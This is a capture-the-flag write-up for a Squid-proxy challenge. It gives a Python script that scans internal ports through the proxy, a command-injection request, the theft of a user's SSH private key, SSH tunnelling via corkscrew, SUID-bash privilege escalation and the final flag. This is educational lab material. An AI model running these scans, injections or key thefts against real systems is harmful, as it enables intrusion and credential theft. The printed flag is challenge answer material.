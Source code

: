# Permission to Proxy

![image](https://github.com/user-attachments/assets/81021240-3a62-46b5-8cd5-dae47ab36255)

## My Solution

When accessing the webpage we get an Invalid URL error and at the bottom we can see it mentioning `squid 3.5.27`.  

![image](https://github.com/user-attachments/assets/5180ad20-a17c-4387-96b6-1852cb12f3ec)

Squid is a proxy and this part was very annoying as we needed to bruteforce an internal port. Squid can be used to figure out internal ports by using it with curl, for example:

```bash
curl --proxy http://challenge.ctf.games:PORT http://127.0.0.1:22
```

In the case of a valid port found like port 22, we get the server banner, or whatever response the service normally gives.  

![image](https://github.com/user-attachments/assets/50169ab0-8ba0-43b6-ac43-c8de501ba80f)

Otherwise we get one of the following 3 errors, ERR_CONNECT_FAIL, ERR_ACCESS_DENIED, or ERR_INVALID_URL:  

The squid proxy can also be used with python requests, this is the way I figured to bruteforce it in a relatively short amount of time.  


```python3
#!/usr/bin/python3

import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

def check_port(i):
    stdout_output = ""  # Initialize stdout_output
    try:
        print(i, flush=True, end='\r')
        r = requests.get(f'http://127.0.0.1:{i}', proxies={'http': 'http://challenge.ctf.games:31199'}, timeout=5)
        stdout_output = r.text
        
        # Check for various connection messages
        if "ERR_CONNECT_FAIL" not in stdout_output and 'ERR_ACCESS_DENIED' not in stdout_output and 'ERR_INVALID_URL' not in stdout_output:
            print(f"Found something on port: {i}")
            print(stdout_output)
    except:
        print(f"The request timed out on port {i}. Look at it separately.")
        exit(1)

# Define the range and maximum number of concurrent threads
port_range = range(65536)
max_threads = 10

# Use ThreadPoolExecutor to handle concurrent requests
with ThreadPoolExecutor(max_workers=max_threads) as executor:
    # Submit tasks for each port and capture the results
    futures = [executor.submit(check_port, i) for i in port_range]
    # Process the results as they complete
    for future in as_completed(futures):
        future.result()  
```
It took the script 24 minutes to find port `50000` as it was hanging the connection and timing out. If there are faster ways, let me know [@LazyTitan33](https://x.com/LazyTitan33)  

![image](https://github.com/user-attachments/assets/bf9ca3d5-632b-471d-a33f-0bef02184c0c)

When we access it using curl, we can see it is listing directories and is trying to execute basically everything and it hangs:  

![image](https://github.com/user-attachments/assets/74aded1a-118e-47ea-bc9b-4b6f94b81090)

Tried to see if I have command injection in the URL itself, in the endpoint, and we do:  

```bash
curl --proxy http://challenge.ctf.games:32381 'http://127.0.0.1:50000/;id;test'
```

![image](https://github.com/user-attachments/assets/662cf062-d0bd-4c21-8fd3-aa2ea45688c2)


Enumerating for a bit I quickly found the user id_rsa private key and saved it:  

![image](https://github.com/user-attachments/assets/945e5507-104f-4789-bc22-6dd0909d6d1c)


Using [corkscrew](https://github.com/bryanpkc/corkscrew) I can proxy an SSH connection as well and get proper shell:  

```bash
ssh -i id_rsa -o "ProxyCommand /usr/bin/corkscrew challenge.ctf.games 30351  %h %p" user@127.0.0.1
```

Ran linpeas and quickly saw that bash has SUID on so escalating privileges is a breeze:  

![image](https://github.com/user-attachments/assets/3cfe8c3a-afe0-4de2-8d68-bf3ca15cb63e)

And we get the flag:  

![image](https://github.com/user-attachments/assets/9dfc36b7-7539-434e-9264-116a21a275d0)

`flag{c9bbd4888086111e9f632d4861c103f1}`

